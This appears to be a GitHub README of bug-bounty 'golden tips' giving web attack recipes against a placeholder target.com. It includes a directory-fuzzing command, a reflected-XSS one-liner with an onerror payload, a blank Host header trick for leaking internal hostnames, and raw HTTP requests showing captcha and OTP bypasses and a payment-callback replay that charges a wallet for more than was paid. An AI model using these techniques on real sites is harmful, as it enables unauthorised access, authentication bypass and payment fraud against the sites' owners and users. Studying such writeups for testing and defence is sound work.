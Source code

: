 # Writeups (Golden tips)

## Information Disclosure
```bash
# directory fuzzing for sensitive files
dirsearch -u “https://target.com” -t 150 -x 403,404,500,429 -i 200,301,302 --random-agent
```
## Reflected XSS (Non-Persistent XSS)
```bash
# XSS one liner
echo "target.com" | gauplus | grep "?" | qsreplace 'xssz"><img/src=x onerror=confirm(999)><!--' | httpx -mr '"><img/'
```
**What this command do?**

1st it look for urls using a tool called `gauplus` or you can use `waybackurls` or waymore, thes are great tools too to find archived urls, then it get all the urls with parameters and replace all the values of the parameter with the payload `xssz”><img/src=x onerror=confirm(999)><!--` than using `HTTPX` tool it will give you all the request that contain our malicious payload on the responce with no filters.

## The Blank Host Header trick
**Concise tip:** Try to find places in websites where the “host” HTTP header is reflected on the page. If you find this, try a blank host header in the request and the website may leak internal hostnames!

If a site is reflecting the host header in the response even when you it to something like example.com, it may be vulnerable to this. First, you need to change the HTTP protocol on the request from `HTTP/1.1`, the default, to `HTTP/1.0`. This is because empty host headers are invalid in the newer protocol. This is done in different ways depending on how you are replaying this HTTP request, but for example in Burp Repeater, you simply change `HTTP/1.1` in the top line of the request to `HTTP/1.0`. Next, you want to make the `host` HTTP header **blank**, so it looks like `Host:`. Now when you send the request, the response may show an IP address or a weird looking web address where the host header was previously reflected. **99%** of the time this is an **internal hostname or an internal IP address**. These can be used in other exploits to perform attacks on internal infrastructure, so companies generally do not want these leaked!

This is common on `Apache` servers when the bottom line of an error page reads something like **Apache Server at example.com Port 443** because example.com is simply being reflected from the host header in the request.


## Captcha Bypass
1. The following request is related to entering the system:
```html
POST /Auth/LoginWithPasswordCaptcha HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","captchaCode":"acvb","captchaId":"77e148fc-9fb8-48a5-af25-699761fbb223","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```
2. If the attacker deletes the captcha code variable in the body and changes /Auth/LoginWithPasswordCaptcha to /Auth/LoginWithPassword in the url, the implemented captcha mechanism will be bypassed and the attacker can implement it this way. make a pervasive search attack.
```html
POST /Auth/LoginWithPassword HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```

## OTP Bypass
1. The following request is a request to check the otp in the digital signature section:
```html
POST /SignatureCertificate/CheckOtp HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

```
2. If the entered otp is wrong, the following answer will be returned:
```html
HTTP/1.1 400 Bad Request
Server: nginx
Content-Type: application/json; charset=utf-8
Set-Cookie: cookiesession1=678B286C2DE65BDFC274EB1DEB4B88A6;Expires=Tue, 29 Jul 2025 11:54:43 GMT;Path=/;HttpOnly
---snip---

{"isFailed":true,"isSuccess":false,"reasons":[{"message":"Your code has expired! Please get a new code!","metadata":{}}]," errors":[{"reasons":[],"message":"Your code has expired! Please get a new code!","metadata":{}}],"successes":[]}
```
3. If the attacker sets the `isFailed` value to `False` and the `isSuccess` value to `True` in this **response**, he can easily bypass the OTP authentication mechanism without having access to the correct code!

## Wallet Charging Bypass
1. By using this attack, the attacker can pay a smaller amount and charge a larger amount to his wallet by changing the tokens. First, buy 5$ normally in the charging section of the wallet and do not send the call back request, drop it and intercept it:

**Sample call back request**
```html
POST /ResultTransaction?trackingCode=51376940 HTTP/1.1
Host: target.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0 
---snip---
 
Token=28907420839252952&OrderId=51376940&TerminalNo=85053207&RRN=743808093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC0D404DBF729427517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct=
```
2. Then make a new payment with a higher amount and click cancel at the time of payment and intercept the corresponding call back and put the body of the previous request in this request and finally put the `orderId` of the higher amount request in the request.
3. Final request:
```html
POST /ResultTransaction?trackingCode=51489803 HTTP/1.1
Host: target.com 
---snip---

Token=28907420839252952&OrderId=51489803&TerminalNo=8521900539207&RRN=743807548093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC450D404DBF7294277517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct==
```
* Finally, the message of unsuccessful transaction is displayed to the user, but the **wallet is charged successfully**.






















